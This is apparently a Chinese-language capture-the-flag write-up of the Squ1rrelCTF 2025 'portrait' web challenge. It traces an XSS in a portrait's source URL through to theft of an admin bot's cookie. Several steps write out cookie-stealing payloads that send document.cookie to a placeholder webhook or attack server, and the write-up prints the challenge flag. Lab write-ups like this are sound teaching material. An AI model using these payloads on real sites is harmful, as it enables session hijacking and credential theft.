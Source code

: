 ##### tags: `Squ1rrelCTF_2025`
# Squ1rrelCTF 2025 Web : portrait

<style>
.red {
  color: red;
}
.blue {
  color: blue;
}
.purple {
  color: #7D3382;
}
.light_purple {
  color: #810cf5;
}
</style>

<span class=""></span>

## <span class="red">題目</span>

- ![image](https://hackmd.io/_uploads/ByzmpF7Akx.png)

## <span class="red">前情提要</span>

- **如果這題也和我一樣是在本地 (local) 建置的話，要修改一下 ```docker-compose.yaml```：**
- ![image](https://hackmd.io/_uploads/SyalQp40ye.png)
- **綠色的 code 是原本的，註解是我加上的**

## <span class="red">解題過程 (After Event)</span>

1. **進入靶機後一開始是一個登入業面，打開 DevTools 看到有一個處理前端登入導向的 script ，看到有註冊按鈕所以註冊一個帳號並登入看看**

- ![image](https://hackmd.io/_uploads/Sy8xAK7Ayg.png)
- ![image](https://hackmd.io/_uploads/S1LBAYmAkl.png)
- ![image](https://hackmd.io/_uploads/rycLAYXR1x.png)

&emsp;

2. **我帳號和密碼都用 ```123``` 進行註冊，這時會跳 Login failed ，無法從前端判斷原因，所以查看題目給的 source code 。在 ```src/index.js``` 中可以發現，因為 username 長度不足 6 導致 ```status code = 400``` 而彈出 Login failed**

- ![image](https://hackmd.io/_uploads/H1_fJq7Akl.png)
- ![image](https://hackmd.io/_uploads/BJdfx9mR1g.png)
- ![image](https://hackmd.io/_uploads/SkC2l5Q0kx.png)

&emsp;

3. **於是我將帳號改為 123456 ，密碼維持不變 (=123)，註冊成功就會直接進到 
```Your Portraits``` 的頁面，會發現有可以上傳 (Add a Portraits) 或是檢舉 (Report a Portraits) 的按鈕。為了節省時間，我直接觀察了一下給的 code ，發現有給 bot 並且 bot 身上會帶著有 flag 的 cookie ，結合題目一開始說如果 report a gallery 會讓 admin bot 去訪問該 gallery ，所以猜測是利用某些漏洞來偷取 bot 的 cookie**

- ![image](https://hackmd.io/_uploads/HkOgG5mA1e.png)
- ![image](https://hackmd.io/_uploads/BJzmGcmCke.png)
- ![image](https://hackmd.io/_uploads/SJKRvcmRke.png)
- ![image](https://hackmd.io/_uploads/B1v7O5XCkl.png)

&emsp;

4. **檢查 ```bot.js``` 後就能夠發現，這題應該是 ```XSS``` ，在綜合 step3 的觀察，目標應該是利用 ```XSS``` 把 admin 的 cookie 藉由 webhook 偷到手。確認目標後，因為是 ```XSS``` 所以得先找注入點，因為這題有 ```Add a Portrait``` 的 button ，所以推測這應該是注入點**

- ![image](https://hackmd.io/_uploads/H1qjWimCJe.png)

&emsp;

5. **接著必須查看具體是哪個 part 可以注入。首先找到 ```document.ready``` 的 script (頁面初始化時會跑的 function)，會發現 ```protrait.source``` 和 ```portrait.name``` 都有被 Added as an attribute => 好像都可以打(1.)，但是可以看到在後面(2.) ```portrait.name``` 已經被渲染成 text 了，所以只能攻擊 ```protrait.source``` 的部份**

- ![image](https://hackmd.io/_uploads/SkdK4omAkx.png)

&emsp;

6. **知道要攻擊 ```protrait.source``` 之後，注意到前面的程式碼，針對 ```portrait.source``` 上傳的內容必須要是 URL (或是 URI)，所以不能注入像是：
```<img src=x: onerror="(new Image).src='{attack_server}?'+document.cookie">```
這種 html 類型的 payload**

- ![image](https://hackmd.io/_uploads/Hy1F-nQRye.png)

&emsp;

7. **於是我一開始構建了這樣的 payload ，可以看到 bot 成功訪問的訊息，但是 webhook 並沒有偷到 cookie**
    ```
    Title : XSS1
    URL   : javascript:fetch('https://<your webhook.site>?'+document.cookie)
    ```

- ![image](https://hackmd.io/_uploads/HktYL3V01g.png)
- ![image](https://hackmd.io/_uploads/S1poU34Rkx.png)
- ![image](https://hackmd.io/_uploads/S1ryPhE0yg.png)

&emsp;

8. **會失敗是因為被讀成 img 然後觸發 error ，所以才會在 gallery 的地方看到圖片(那個是預設的圖片)，所以要修改一下 payload：**
    ```
    Title : XSS2
    URL   : data:text/html,<script>fetch('https://<your webhook.site>?'+document.cookie)</script>
    ```
- **```XSS2``` 不行，因為當這段被讀成 img 時， html 就已經不會進行渲染了，也就是說後面部分的 js 不會被成功執行到，所以改成以下這種 payload**

    ```
    Title : XSS3
    URL   : data:text/javascript,fetch('https://<your webhook.site>?'+document.cookie)
    ```

- **被讀成圖片的 code：**
- ![image](https://hackmd.io/_uploads/HkBSunEAkx.png)

- **打開圖片(讀圖片的 URL )時如果有錯誤的處理邏輯：**
- ![image](https://hackmd.io/_uploads/SJa5F2EC1x.png)

&emsp;

9. **成功訪問後(如果 payload 是對的)去 webhook.site 就能看到 flag 了**

- ![image](https://hackmd.io/_uploads/H10lN2EAke.png)
- ![image](https://hackmd.io/_uploads/B1kD43NRyl.png)

&emsp;

10. **趁題目靶機還未被關閉去抓 flag**

- ![image](https://hackmd.io/_uploads/B11szxHRJg.png)
- ![image](https://hackmd.io/_uploads/H1IpGlBA1g.png)
- flag🚩 : squ1rrel{unc_s747us_jqu3ry_l0wk3y_take_two_new_flag_check_this_out_guys}